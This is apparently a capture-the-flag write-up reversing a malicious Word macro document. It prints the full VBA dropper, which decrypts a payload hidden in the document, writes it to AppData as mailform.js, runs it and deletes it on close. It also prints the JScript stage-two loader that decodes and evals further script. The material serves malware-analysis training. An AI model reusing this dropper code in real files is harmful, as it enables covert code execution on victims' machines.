# Game Invitation

> Difficulty: Hard
>
> In the bustling city of KORP™, where factions vie in The Fray, a mysterious game emerges. As a seasoned faction member, you feel the tension growing by the minute. Whispers spread of a new challenge, piquing both curiosity and wariness. Then, an email arrives: "Join The Fray: Embrace the Challenge." But lurking beneath the excitement is a nagging doubt. Could this invitation hide something more sinister within its innocent attachment?

Solution:

We are given with the file, `invitation.docm`, a Microsoft Office Word Macro-Enabled Document.



Let's analyze using `oleid`...



Obviously, it does have malicious VBA Macros. Let's check it using `olevba`.





```vba
Public IAiiymixt As String
Public kWXlyKwVj As String


Function JFqcfEGnc(given_string() As Byte, length As Long) As Boolean
Dim xor_key As Byte
xor_key = 45
For i = 0 To length - 1
given_string(i) = given_string(i) Xor xor_key
xor_key = ((xor_key Xor 99) Xor (i Mod 254))
Next i
JFqcfEGnc = True
End Function

Sub AutoClose() 'delete the js script'
On Error Resume Next
Kill IAiiymixt
On Error Resume Next
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
aMUsvgOin.DeleteFile kWXlyKwVj & "\*.*", True
Set aMUsvgOin = Nothing
End Sub

Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim chkDomain As String
Dim strUserDomain As String
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then

Else

Dim gIvqmZwiW
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
gIvqmZwiW = FreeFile
Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW
Dim CbkQJVeAG() As Byte
ReDim CbkQJVeAG(file_length)
Get #gIvqmZwiW, 1, CbkQJVeAG
Dim SwMbxtWpP As String
SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim vTxAnSEFH
    Set vTxAnSEFH = CreateObject("vbscript.regexp")
    vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
    Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 13082
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #gIvqmZwiW, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not JFqcfEGnc(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
kWXlyKwVj = Environ("appdata")
End If
Set aMUsvgOin = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
Open (IAiiymixt) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End If
End Sub
```

ooh, it's obfuscated

on line `Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW`, it's reading the word document in binary mode, thus, doing a dynamic analysis seems to be the best way

I had to grab an ISO from https://archive.org/details/microsoft-office-professional-plus-2007 since my VM doesn't have Microsoft Office

alright, let's check it out



kewl, let's enable the macros



then let's check the macro at view > macros > AutoOpen > edit



there's a condition where our device's UserDomain should be `GAMEMASTERS.local`, we can just edit it lol





on lines
```vba
IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
Open (IAiiymixt) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
```
it seems to be saving the file `mailform.js`, let's set a breakpoint at `Erase Wk4o3X7x1134j`, which is after it closes the file



and run!



Got it! Let's take a look at the contents of that file...



obfuscated again 😬

let's beautify it first using https://beautifier.io/



```js
var lVky = WScript.Arguments;
var DASz = lVky(0);
var Iwlh = lyEK();
Iwlh = JrvS(Iwlh);
Iwlh = xR68(DASz, Iwlh);
eval(Iwlh);

function af5Q(r) {
    var a = r.charCodeAt(0);
    if (a === 43 || a === 45) return 62;
    if (a === 47 || a === 95) return 63;
    if (a < 48) return -1;
    if (a < 48 + 10) return a - 48 + 26 + 26;
    if (a < 65 + 26) return a - 65;
    if (a < 97 + 26) return a - 97 + 26
}

function JrvS(r) {
    var a = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    var t;
    var l;
    var h;
    if (r.length % 4 > 0) return;
    var u = r.length;
    var g = r.charAt(u - 2) === "=" ? 2 : r.charAt(u - 1) === "=" ? 1 : 0;
    var n = new Array(r.length * 3 / 4 - g);
    var i = g > 0 ? r.length - 4 : r.length;
    var z = 0;

    function b(r) {
        n[z++] = r
    }
    for (t = 0, l = 0; t < i; t += 4, l += 3) {
        h = af5Q(r.charAt(t)) << 18 | af5Q(r.charAt(t + 1)) << 12 | af5Q(r.charAt(t + 2)) << 6 | af5Q(r.charAt(t + 3));
        b((h & 16711680) >> 16);
        b((h & 65280) >> 8);
        b(h & 255)
    }
    if (g === 2) {
        h = af5Q(r.charAt(t)) << 2 | af5Q(r.charAt(t + 1)) >> 4;
        b(h & 255)
    } else if (g === 1) {
        h = af5Q(r.charAt(t)) << 10 | af5Q(r.charAt(t + 1)) << 4 | af5Q(r.charAt(t + 2)) >> 2;
        b(h >> 8 & 255);
        b(h & 255)
    }
    return n
}

function xR68(r, a) {
    var t = [];
    var l = 0;
    var h;
    var u = "";
    for (var g = 0; g < 256; g++) {
        t[g] = g
    }
    for (var g = 0; g < 256; g++) {
        l = (l + t[g] + r.charCodeAt(g % r.length)) % 256;
        h = t[g];
        t[g] = t[l];
        t[l] = h
    }
    var g = 0;
    var l = 0;
    for (var n = 0; n < a.length; n++) {
        g = (g + 1) % 256;
        l = (l + t[g]) % 256;
        h = t[g];
        t[g] = t[l];
        t[l] = h;
        u += String.fromCharCode(a[n] ^ t[(t[g] + t[l]) % 256])
    }
    return u
}

function lyEK() {
    var r = "cxbDXRuOhlN-snip-ZMtMkm0E=";
    return r
} |
```

there's an invalid character at the end (`|`), let's remove that...

alright, based on the first line `var lVky = WScript.Arguments;`, it accepts an argument...based from the macro earlier, that argument is `vF8rdgMHKBrvCoCp0ulm`



so if we run it manually, it's `"C:\Windows\System32\WScript.exe" "C:\Users\chonkyNyan\AppData\Roaming\Microsoft\Windows\mailform.js" vF8rdgMHKBrvCoCp0ulm`

though on line 6, `eval(Iwlh);`, it seems to be running another decoded script

instead of running it, I decided to modify it by saving it in another file instead
```js
var lVky = WScript.Arguments;
var DASz = lVky(0);
var Iwlh = lyEK();
Iwlh = JrvS(Iwlh);
Iwlh = xR68(DASz, Iwlh);

var fso = new ActiveXObject("Scripting.FileSystemObject");
var file = fso.CreateTextFile("output.txt", true);
file.WriteLine(Iwlh);
file.Close();
```

alright, let's run it!



Gotcha! Let's check the contents...



wah, it's obfuscated again 😬

though when we take a closer look...



There seems to be a base64 encoded string, and it says flag! Let's decode it...



Woop woop!

Flag: `HTB{m4ld0cs_4r3_g3tt1ng_Tr1cki13r}`

